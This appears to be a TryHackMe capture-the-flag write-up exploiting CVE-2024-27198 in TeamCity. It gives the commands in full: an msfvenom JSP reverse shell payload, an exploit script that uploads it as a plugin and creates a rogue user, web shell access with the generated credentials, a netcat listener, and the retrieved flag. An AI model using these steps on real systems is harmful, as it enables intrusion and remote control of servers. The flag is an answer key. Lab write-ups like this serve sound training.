







port 22, 80, 36401, 50000

### **Step-by-Step Explanation:**

1. **Generating the Reverse Shell JSP Payload:**
    
    bash
    
    Copy code
    
    `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.11.102.109 LPORT=4444 -f raw -o shell.jsp`
    
    - This command uses `msfvenom` to create a **JSP reverse shell payload**.
    - **LHOST** is your attacking machine’s IP (`10.11.102.109`).
    - **LPORT** is the port on which your netcat listener will receive the connection (`4444`).
    - **Output** is saved as `shell.jsp`.

---

2. **Uploading the Malicious Plugin:**
    
    bash
    
    Copy code
    
    `python3 CVE-2024-27198-RCE.py -t http://10.10.126.60:50000 -f shell.jsp`
    
    - This command uses the exploit script to **upload the `shell.jsp` reverse shell** as a malicious plugin to the vulnerable TeamCity instance at `10.10.126.60`.
    - The exploit successfully adds a new user (`ic3fjtsx`) and uploads the web shell under the plugin path:
        
        ruby
        
        Copy code
        
        `http://10.10.126.60:50000/plugins/1EYcIAkF/1EYcIAkF.jsp`
        

---

3. **Accessing the Web Shell:**
    
    bash
    
    Copy code
    
    `curl -u ic3fjtsx:mPmBrTvUyP http://10.10.126.60:50000/plugins/1EYcIAkF/1EYcIAkF.jsp`
    
    - Since the web shell is protected with authentication, you used the **new credentials** generated by the exploit (`ic3fjtsx:mPmBrTvUyP`).
    - This **confirms that the web shell is accessible** and ready to execute commands.

---

4. **Starting a Netcat Listener:**
    
    bash
    
    Copy code
    
    `nc -lvnp 4444`
    
    - This command starts your **listener** on port 4444 to receive the reverse shell.

---

5. **Navigating to the Target’s Filesystem:** You ran the following **`find`** command to search for the flag:
    
    bash
    
    Copy code
    
    `find / -name "flag.txt" 2>/dev/null`
    
    - The output shows that the flag is located at:
        
        arduino
        
        Copy code
        
        `/home/ubuntu/flag.txt`
        

---

6. **Retrieving the Flag:**
    
    bash
    
    Copy code
    
    `cd /home/ubuntu cat flag.txt`
    
    - This command navigates to the target user’s home directory and displays the content of the `flag.txt` file:
        
        Copy code
        
        `THM{faa9bac345709b6620a6200b484c7594}`
        

---

### **Summary:**

- You **exploited** the vulnerability in TeamCity by uploading a **JSP reverse shell plugin**.
- You **logged into the web shell** using the credentials generated by the exploit.
- You successfully **found the `flag.txt`** in `/home/ubuntu` and retrieved it using `cat`.
- The flag is:  
    **`THM{faa9bac345709b6620a6200b484c7594}`**

